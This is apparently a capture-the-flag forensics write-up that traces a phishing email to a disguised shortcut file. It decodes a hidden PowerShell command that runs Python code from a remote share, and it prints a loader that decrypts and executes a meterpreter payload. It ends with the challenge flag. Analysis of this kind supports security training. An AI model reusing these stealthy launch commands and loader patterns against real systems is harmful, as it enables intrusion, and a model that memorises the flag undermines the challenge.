



# 🕵️ Forensics Challenge

## 🏷️ Name: A new Hire

## 🔥 Difficulty: Very Easy

## 🎯 Points: 900

## 📜 Challenge Description: 
> The Royal Archives of Eldoria have recovered a mysterious document—an old resume once belonging to Lord Malakar before his fall from grace. At first glance, it appears to be an ordinary record of his achievements as a noble knight, but hidden within the text are secrets that reveal his descent into darkness.

--- 
## 📂 Provided Files:
- **Filename:** `forensics_a_new_hire.zip`

- **SHA-256 Hash:** `5c0da1869ffaac3503b0d63302c4739ad7e5ea731f24170ddab6180801dc1fa6`

--- 

# 🚀 Methodology

### 🔎 1️⃣ Understanding the Evidence


The provided file is an `.eml` email file. The email essentially recommends Lord Malakar for a role at a company. Also, was this email generated with chat GPT? lol:

> "We believe Malakar’s skills and experience could be a great fit for your team, and he is eager to discuss how he can contribute to [Company Name]’s continued success."

We’re pointed to a URL:

```
storage.microsoftcloudservices.com:[PORT]/index.php
```


However, that site was blocked on my browser. Inspecting the page source revealed a more direct path:



```
[HOST]:[PORT]/3fe1690d955e8fd2a0b282501570e1f4/resumes/
```


There, we find a link to `Resume.pdf .lnk`. 




And it contains a powershell execution code:



```powershell
powershell.exe -W Hidden -nop -ep bypass -NoExit -E <BASE64_STRING>
```

---

## 🛠️ 2️⃣ Decoding the Payload

Decoding it reveals this:

```powershell
[System.Diagnostics.Process]::Start('msedge', 'http://storage.microsoftcloudservices.com:47912/3fe1690d955e8fd2a0b282501570e1f4/resumesS/resume_official.pdf');\\storage.microsoftcloudservices.com@47912\3fe1690d955e8fd2a0b282501570e1f4\python312\python.exe \\storage.microsoftcloudservices.com@47912\3fe1690d955e8fd2a0b282501570e1f4\configs\client.py
```

To make things easier, I used a Python script to download all the mentioned files:

```python

import requests
import os

urls = [
    'http://storage.microsoftcloudservices.com:47912/3fe1690d955e8fd2a0b282501570e1f4/resumesS/resume_official.pdf',
    'http://storage.microsoftcloudservices.com@47912/3fe1690d955e8fd2a0b282501570e1f4/python312/python.exe',
    'http://storage.microsoftcloudservices.com@47912/3fe1690d955e8fd2a0b282501570e1f4/configs/client.py'
]

os.makedirs('files', exist_ok=True)

for url in urls:
    file_name = url.split('/')[-1]
    url = url.replace('@', ':')
    response = requests.get(url)
    with open(f'files/{file_name}', 'wb') as of:
        of.write(response.content)
```

---

## 🔢 3️⃣ Analyzing the Files

Among the downloads, `resume_official.pdf` seemed like Lord Malakar's actual resume. The more interesting file is `client.py`, which includes a meterpreter payload:

```python
import base64

key = base64.decode("SFRCezRQVF8yOF80bmRfbTFjcjBzMGZ0X3MzNHJjaD0xbjF0MTRsXzRjYzNzISF9Cg==")
data = base64.b64decode("BLABLABLA")

meterpreter_data = bytes([data[i] ^ key[i % len(key)] for i in range(len(data))])
exec(__import__('zlib').decompress(meterpreter_data)[0])
```

The code contains a small typo: it should be `base64.b64decode` instead of `base64.decode`. Also, strings beginning with `SFR` in base64 often translate to flags in HTB !.

---

**🚩 Final Flag:** `HTB{4PT_28_4nd_m1cr0s0ft_s34rch=1n1t14l_4cc3s!!}`


